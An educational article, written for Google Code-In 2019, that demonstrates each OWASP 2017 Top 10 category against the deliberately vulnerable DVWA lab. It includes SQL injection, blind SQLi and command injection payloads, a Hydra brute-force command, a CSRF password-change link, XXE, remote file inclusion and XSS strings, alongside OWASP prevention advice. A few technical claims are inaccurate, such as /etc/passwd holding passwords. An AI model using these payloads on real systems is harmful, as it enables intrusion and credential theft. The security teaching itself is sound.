

# OWASP Top 10
### [OWASP](https://owasp.org/) **(Open Web Application security project)** is a non-profit foundation that take care of web security by releasing free articles, guides etc.
OWASP also releases a ranking of top 10 most criticial web app vulnerabilities every 3-4 years. In this article, I will discuss all of them and show examples of exploitation them.

### Newest release of Top 10 is from 2017 year, and it will be a base for this article.

## Injection 

Web application that takes input from user without validating it properly, may be vulnerable to code injection. 
Code injection vulnerabilities are often found in database queries, OS Commands, XML Parsers, SMTP Headers or expression languages and
it may lead to data loss, data corruption, information disclosure or denial of service.

### SQL Injection Proof of Concept
We have script that shows us first name and second name of user with id providen by us.
```php
$id = $_REQUEST[ 'id' ];
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```
After providing correct user id we got following output:


Since `$id` is not validated by any way, we can simply add whatever we want to this.
SQL language have function called `UNION` which is used to combine results of two `SELECT` into one. \
Let' s try provide following code:
```sql
1' UNION ALL SELECT user, password FROM users WHERE '1'='1
```
And it give us following results:


Where `first_name` is username and `Surname` is hashed password.

### Blind SQL Injection Proof of Concept
Blind SQL Injection vulnerability may exist in scripts that are returning `true` or `false` from SQL Queries.
```php
$id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }
```
As you can see, this script is selecting `first_name` and `last_name` from users with `id_user` providen by us, and then check number of rows returned by SQL Query.
After providing correct user id `1` we got following result:


But we can add second condition checking password by injecting `1' AND password LIKE "5%"`
In this case, query will return true if password's hash starts with `5`.
Using this knowledge we can use brute-force method to get MD5 Hash of our password with maximum number of combinations equal `16 * 32 = 512`. For brute-forcing this, I recommend [Burp Suite](https://portswigger.net/burp) which is a very powerful toolset for web pentesting.

Intruder module can be used to perform Blind SQL Injection bruteforce.
In this example, we can use following code:
```http
GET /vulnerabilities/sqli_blind/?id=1%27+AND+password+LIKE+%27§variable§%25&Submit=submit HTTP/1.1
Host: 192.168.0.80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.0.80/vulnerabilities/sqli_blind/
Cookie: PHPSESSID=ivrfokob8oem54eevcr7pt3el4; security=low
Upgrade-Insecure-Requests: 1
```
And payload configured with letters from `0` to `f`


Following intruder attack gives us following results:


As we can see, `5` is first letter of password's hash.
Then we can modify request to check second letter by putting `5` before `§variable§`.
### Command Injection Proof of Concept
Consider web application with functionality to ping any device.

```php
$target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }
```
Let' s try ping `127.0.0.1`:


Both `bash` and `cmd` allows to execute two commands with single input using `&&` operator.
Also, `$target` is not validated in any way.

Let' s try putting following code into `$target`:
```bash
127.0.0.1 && whoami && uname -a
```

It gives us following results:


Where `www-data` is output of `whoami` command, and `Linux ...` is result of `uname -a`.

### How to prevent Injections?
- The preferred option is to use a safe API, which avoids the use
of the interpreter entirely or provides a parameterized interface,
or migrate to use Object Relational Mapping Tools (ORMs).
Note: Even when parameterized, stored procedures can still
introduce SQL injection if PL/SQL or T-SQL concatenates
queries and data, or executes hostile data with EXECUTE
IMMEDIATE or exec().
- Use positive or "whitelist" server-side input validation. This is
not a complete defense as many applications require special
characters, such as text areas or APIs for mobile applications.
- For any residual dynamic queries, escape special characters
using the specific escape syntax for that interpreter.
Note: SQL structure such as table names, column names, and
so on cannot be escaped, and thus user-supplied structure
names are dangerous. This is a common issue in report-writing
software.
- Use LIMIT and other SQL controls within queries to prevent
mass disclosure of records in case of SQL injection.

## Broken Authentication

Unfortunately, it is pretty common to deploy web applications with default credentials.
Also, admins can have same credentials as in other services where password have leaked from.
Even the session tokens can be not short-term enough.

### Default or leaked credentials exploitation Proof of Concept
Let' s discuss following script:
```php
<?php

if( isset( $_GET[ 'Login' ] ) ) {
    // Get username
    $user = $_GET[ 'username' ];

    // Get password
    $pass = $_GET[ 'password' ];
    $pass = md5( $pass );

    // Check the database
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Get users details
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];

        // Login successful
        echo "<p>Welcome to the password protected area {$user}</p>";
        echo "";
    }
    else {
        // Login failed
        echo "<pre><br />Username and/or password incorrect.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
It gets username and password from `GET` arguments. We have no idea what they are.
Let' s try brute-force them using [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra).

```
hydra 192.168.0.80 -l admin -P resources/wordlist.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=ivrfokob8oem54eevcr7pt3el4" -t64
```
After 3 minutes of cracking we got following result:
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-12-08 15:12:01
[DATA] max 64 tasks per 1 server, overall 64 tasks, 7776 login tries (l:1/p:7776), ~122 tries per task
[DATA] attacking http-get-form://192.168.0.80:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=incorrect:H=Cookie: security=low; PHPSESSID=ivrfokob8oem54eevcr7pt3el4
[STATUS] 2777.00 tries/min, 2777 tries in 00:01h, 4999 to do in 00:02h, 64 active
[80][http-get-form] host: 192.168.0.80   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-12-08 15:13:39
```
Let' s try `admin`:`password` combination.


It worked, also we can use brute-force attack with combolist from any leak. This is why having different password on every website is very important.

## How to prevent from this vulnerability?
- Where possible, implement multi-factor authentication to
prevent automated, credential stuffing, brute force, and stolen
credential re-use attacks.
- Do not ship or deploy with any default credentials, particularly
for admin users.
- Implement weak-password checks, such as testing new or
changed passwords against a list of the [top 10000 worst
passwords](https://github.com/danielmiessler/SecLists/tree/master/Passwords).
- Align password length, complexity and rotation policies with
[NIST 800-63 B's guidelines in section 5.1.1 for Memorized
Secrets](https://pages.nist.gov/800-63-3/sp800-63b.html#memsecret) or other modern, evidence based password policies.
- Ensure registration, credential recovery, and API pathways are
hardened against account enumeration attacks by using the
same messages for all outcomes.
- Limit or increasingly delay failed login attempts. Log all failures
and alert administrators when credential stuffing, brute force, or
other attacks are detected.
- Use a server-side, secure, built-in session manager that
generates a new random session ID with high entropy after
login. Session IDs should not be in the URL, be securely stored
and invalidated after logout, idle, and absolute timeouts.

## Sensitive Data Exposure

Sensitive Data Exposure vulnerability may lead to leak sensitive infomations. It can be exploited by e.g. [Man-in-the-Middle attack](https://en.wikipedia.org/wiki/Man-in-the-middle_attack) or SQL Injection attack described above.

### Proof of Concept
Using Command Injection vulnerability described above, attack can steal content of sensitive files.

Let' s try putting `127.0.0.1 && cat /etc/passwd` into Ping a device webapp's module:


We got content of `/etc/passwd` file which stores passwords for all users within system.

### Good practices to make your data secure:
- Classify data processed, stored, or transmitted by an
application. Identify which data is sensitive according to privacy
laws, regulatory requirements, or business needs.
- Apply controls as per the classification.
- Don’t store sensitive data unnecessarily. Discard it as soon as
possible or use PCI DSS compliant tokenization or even
truncation. Data that is not retained cannot be stolen.
- Make sure to encrypt all sensitive data at rest.
- Ensure up-to-date and strong standard algorithms, protocols,
and keys are in place; use proper key management.
- Encrypt all data in transit with secure protocols such as TLS
with perfect forward secrecy (PFS) ciphers, cipher prioritization
by the server, and secure parameters. Enforce encryption
using directives like HTTP Strict Transport Security ([HSTS](https://www.owasp.org/index.php/HTTP_Strict_Transport_Security_Cheat_Sheet)).
- Disable caching for responses that contain sensitive data.
- Store passwords using strong adaptive and salted hashing
functions with a work factor (delay factor), such as [Argon2](https://www.cryptolux.org/index.php/Argon2),
[scrypt](https://en.wikipedia.org/wiki/Scrypt), [bcrypt](https://en.wikipedia.org/wiki/Bcrypt), or [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2).
- Verify independently the effectiveness of configuration and
settings.

## XML External Entities (XXE)

## Example Attacks:
- Injecting `<!ENTITY xxe SYSTEM "file://etc/passwd" >]>` into XML may lead to sensitive data exposure
- Injecting `<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>` into XML may lead to sensitive data exposure from another host within server's private network
- Injecting `<!ENTITY xxe SYSTEM "file:///dev/random" >]>` into XML may lead to Denial-of-Service because of reading endless **pseudo**file.

Unfortunetly, DVWA has not challange where this vulnerability can be used.

## How to prevent from XXE?
- Whenever possible, use less complex data formats such as
JSON, and avoiding serialization of sensitive data.
- Patch or upgrade all XML processors and libraries in use by
the application or on the underlying operating system. Use
dependency checkers. Update SOAP to SOAP 1.2 or higher.
- Disable XML external entity and DTD processing in all XML
parsers in the application, as per the [OWASP Cheat Sheet
'XXE Prevention'](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet).
- Implement positive ("whitelisting") server-side input validation,
filtering, or sanitization to prevent hostile data within XML
documents, headers, or nodes.
- Verify that XML or XSL file upload functionality validates
incoming XML using XSD validation or similar.
- [SAST](https://www.owasp.org/index.php/Source_Code_Analysis_Tools) tools can help detect XXE in source code, although
manual code review is the best alternative in large, complex
applications with many integrations.
If these controls are not possible, consider using virtual
patching, API security gateways, or Web Application F
## Broken Access Control


Broken Access Control vulnerability may cause attackers acting as administrators

### Broken Access Control Proof of Concept
In this case, we will use `CSRF` vulnerability, to get access of `admin` account.

#### Vulnerable script to change password code:
```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```
In this script, new password and password confirmations are sent via `GET` Method.
But what if we send `http://192.168.0.80/vulnerabilities/csrf/source/low.php?password_new=123&password_conf=123` to the admin and admin would open this link?
It will change his account's password to `123`.

### How to prevent?
- With the exception of public resources, deny by default.
- Implement access control mechanisms once and re-use them
throughout the application, including minimizing CORS usage.
- Model access controls should enforce record ownership, rather
than accepting that the user can create, read, update, or delete
any record.
- Unique application business limit requirements should be
enforced by domain models.
- Disable web server directory listing and ensure file metadata
(e.g. .git) and backup files are not present within web roots.
- Log access control failures, alert admins when appropriate
(e.g. repeated failures).
- Rate limit API and controller access to minimize the harm from
automated attack tooling.
- JWT tokens should be invalidated on the server after logout.

## Security Misconfiguration


Let' s take misconfigured PHP as an example.
PHP have config switch called `allow_url_include`, if it is set to `true`, attack can inject his own malicious php code into web app.

### Remote File Inclusion Proof of Concept
```
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```
If PHP is configured wrong, we can inject php code hosted on any other server by passing its url into `page` get parameter.
I hosted following code on my machine:
```php
<?php
echo system("ls");
?>
```
What happened if I injected URL of this file into `page` parameter?


### How to prevent?
Secure installation processes should be implemented, including:
- A repeatable hardening process that makes it fast and easy to
deploy another environment that is properly locked down.
Development, QA, and production environments should all be
configured identically, with different credentials used in each
environment. This process should be automated to minimize
the effort required to setup a new secure environment.
- A minimal platform without any unnecessary features,
components, documentation, and samples. Remove or do not
install unused features and frameworks.
- A task to review and update the configurations appropriate to
all security notes, updates and patches as part of the patch
management process (see [A9:2017-Using Components with
Known Vulnerabilities](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf#page=16)). In particular, review cloud storage
permissions (e.g. S3 bucket permissions).
- A segmented application architecture that provides effective,
secure separation between components or tenants, with
segmentation, containerization, or cloud security groups.
- Sending security directives to clients, e.g. [Security Headers](https://www.owasp.org/index.php/OWASP_Secure_Headers_Project).
- An automated process to verify the effectiveness of the
configurations and settings in all environments.

## Cross-Site Scripting (XSS)


XSS is a vulnerability that allows attackers to inject `html` code into website.
(Un)fortunetly, html allows to run `javascript` code with `<script>` tag.

### Reflected XSS Proof of Concept
Let' s discuss following script:
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```
It takes `name` get parameter and then print it. But what if we put following code as `name`?
```html
<script>alert(1);</script>
```

#### Result:


### Stored XSS
Consider web app that allows users to put comments:
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```
If we inject our JavaScript code into the comment, it will be executed on every browser that visit comments section.
Let's  try put `<script>alert(1);</script>` into the comment.
Every time somebody visits comment section browser will show following alert:


Stored XSS may also lead to sensitive data exposure due to theft of cookies via malicious javascript code.

### How to prevent?
Preventing XSS requires separation of untrusted data from
active browser content. This can be achieved by:
- Using frameworks that automatically escape XSS by design,
such as the latest Ruby on Rails, React JS. Learn the
limitations of each framework's XSS protection and
appropriately handle the use cases which are not covered.
- Escaping untrusted HTTP request data based on the context in
the HTML output (body, attribute, JavaScript, CSS, or URL) will
resolve Reflected and Stored XSS vulnerabilities. The [OWASP
Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data
escaping techniques.
- Applying context-sensitive encoding when modifying the
browser document on the client side acts against DOM XSS.
When this cannot be avoided, similar context sensitive
escaping techniques can be applied to browser APIs as
described in the [OWASP Cheat Sheet 'DOM based XSS
Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) is a defense-in-depth
mitigating control against XSS. It is effective if no other
vulnerabilities exist that would allow placing malicious code via
local file includes (e.g. path traversal overwrites or vulnerable
libraries from permitted content delivery networks).

## Insecure Deserialization


Application can be vulnerable, if it deserialize data from user **(attacker)**.

### How to prevent?
The only safe architectural pattern is not to accept serialized
objects from untrusted sources or to use serialization mediums
that only permit primitive data types.
If that is not possible, consider one of more of the following:
- Implementing integrity checks such as digital signatures on any
serialized objects to prevent hostile object creation or data
tampering.
- Enforcing strict type constraints during deserialization before
object creation as the code typically expects a definable set of
classes. Bypasses to this technique have been demonstrated,
so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege
environments when possible.
- Logging deserialization exceptions and failures, such as where
the incoming type is not the expected type, or the
deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network
connectivity from containers or servers that deserialize.
- Monitoring deserialization, alerting if a user deserializes
constantly.


## Using Components with Known Vulnerabilities


consequences of using compontents with known vulnerabilities may be:
- Denial-of-Service
- Remote Access of Web Server
- Sensitive Data Exposure
- much more

## How to prevent?
- Keep every component up to date: frameworks, http servers, CMS etc.

## Possible Attack
- [nmap](https://nmap.org) can show version of SMTP Server, HTTP server etc. Attacker can look into [CVE database](https://cve.mitre.org/) for vulnerabilities in specific version of software.

- [wpscan](https://wpscan.org) can detect vulnerabilities in WordPress, used plugins, themes etc. Attack can use them to exploit.

## Insufficient Logging & Monitoring


It is a good practice to store logs and monitor for suspicious actions whole the time.
For example, if one IP address sends 100000 HTTP Requests/minute, it is highly probable he is performing a brute-force attack.
If you web app is being monitored properly, this IP Address should be banned for some time because of doing suspicious activity.
Also, insufficient logging may cause after-attack analysis much harder.

### Good practices:
As per the risk of the data stored or processed by the
application:
- Ensure all login, access control failures, and server-side input
validation failures can be logged with sufficient user context to
identify suspicious or malicious accounts, and held for sufficient
time to allow delayed forensic analysis.
- Ensure that logs are generated in a format that can be easily
consumed by a centralized log management solutions.
- Ensure high-value transactions have an audit trail with integrity
controls to prevent tampering or deletion, such as append-only
database tables or similar.
- Establish effective monitoring and alerting such that suspicious
activities are detected and responded to in a timely fashion.
- Establish or adopt an incident response and recovery plan,
such as [NIST 800-61 rev 2](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final) or later.
There are commercial and open source application protection
frameworks such as [OWASP AppSensor](https://www.owasp.org/index.php/OWASP_AppSensor_Project), web application
firewalls such as [ModSecurity with the OWASP ModSecurity
Core Rule Set](https://www.owasp.org/index.php/Category:OWASP_ModSecurity_Core_Rule_Set_Project), and log correlation software with custom
dashboards and alerting. 

## Made by Emilian `synnek` Zawrotny for Google Code-In 2019 challange